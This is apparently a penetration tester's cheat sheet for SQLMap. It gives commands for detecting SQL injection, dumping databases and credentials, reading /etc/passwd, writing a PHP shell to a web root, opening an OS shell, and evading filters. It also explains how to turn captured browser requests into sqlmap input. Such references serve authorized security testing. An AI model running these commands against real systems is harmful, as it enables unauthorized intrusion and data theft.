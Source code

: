 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SQLMap

## Commands

### Detection

{% tabs %}
{% tab title="URL (GET)" %}
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```
{% endtab %}

{% tab title="URL (POST)" %}
{% code overflow="wrap" %}
```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="File" %}
```bash
sqlmap -r request_burp.req --batch -v 0
```
{% endtab %}

{% tab title="Aggresive" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --level=5 --risk=3
```
{% endtab %}
{% endtabs %}

### Data Exfil

{% tabs %}
{% tab title="DB" %}
```bash
sqlmap -r request_burp.req --banner --current-user --current-db --is-dba
```
{% endtab %}

{% tab title="Tables" %}
```bash
sqlmap -r request_burp.req -D testdb --tables
```
{% endtab %}

{% tab title="Table Data" %}
```
sqlmap -r request_burp.req -D testdb -T testtable --dump
```
{% endtab %}

{% tab title="Columns" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C col1,col2
```
{% endtab %}

{% tab title="Rows" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C --start=1 --stop=10
```
{% endcode %}
{% endtab %}

{% tab title="Schema" %}
```bash
sqlmap -r request_burp.req --schema
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Cond Enum" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="Full DB Enum" %}
```bash
sqlmap -r request_burp.req -D testdb --batch -v 0
```
{% endtab %}

{% tab title="Full DBMS" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --dump-all --exclude-sysdbs --batch -v
```
{% endcode %}
{% endtab %}

{% tab title="Hail Mary" %}
```bash
sqlmap -r request_burp.req --all --batch -v 0
```
{% endtab %}
{% endtabs %}

### Advanced Data Exfil

{% tabs %}
{% tab title="Table Name" %}
```bash
sqlmap -r request_burp.req --search -T tableName --batch -v 0
```
{% endtab %}

{% tab title="Col Name" %}
```bash
sqlmap -r request_burp.req --search -C colName --batch -v 0
```
{% endtab %}

{% tab title="Connection Creds" %}
```bash
sqlmap -r request_burp.req --passwords --batch -v 0
```
{% endtab %}
{% endtabs %}

### OS Exploitation

{% tabs %}
{% tab title="Read" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-read "/etc/passwd"
```
{% endtab %}

{% tab title="Write" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --os-shell
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
DBAs needs certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.
{% endhint %}

### Bypasses

{% tabs %}
{% tab title="Unique Value" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --randomize=rp 
```
{% endtab %}

{% tab title="Calculated Param" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
{% endcode %}
{% endtab %}

{% tab title="Agent" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --random-agent
```
{% endcode %}
{% endtab %}

{% tab title="Chunked" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --chunked
```
{% endtab %}

{% tab title="HPP" %}
```bash
sqlmap -r request_burp.req --batch -v 0 -hpp
```
{% endtab %}
{% endtabs %}

## Usage

### cURL

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><img src="../../../.gitbook/assets/sqlmap_curl_copy.png" alt=""><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` go with the default answer when prompted, `-v 0` reduces the verbosity level._

<figure><img src="../../../.gitbook/assets/sqlmap_curl2sqlmap.png" alt=""><figcaption><p>Figure 2: Changing cURL to sqlmap and we are good to go!</p></figcaption></figure>

### HTTP Requests

Capture the Request Headers via a brower or Burp (Figure 3).

> _From Mozilla `Copy Value` -> `Copy Request Headers` and then add the parameters via `Copy Value` -> `Copy POST Data`._

<figure><img src="../../../.gitbook/assets/sqlmap_copy_reqheaders_burp.png" alt=""><figcaption><p>Figure 3: Copying the POST request to a file with Burp Suite.</p></figcaption></figure>

Supply the file to SQLMap (Figure 4).

<figure><img src="../../../.gitbook/assets/sqlmap_req_file.png" alt=""><figcaption><p>Figure 4: Using SQLMap with a request file.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="GitHub Repo" %}
{% embed url="https://github.com/sqlmapproject/sqlmap" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/sqlmapproject/sqlmap/wiki/Introduction" %}
{% endtab %}
{% endtabs %}
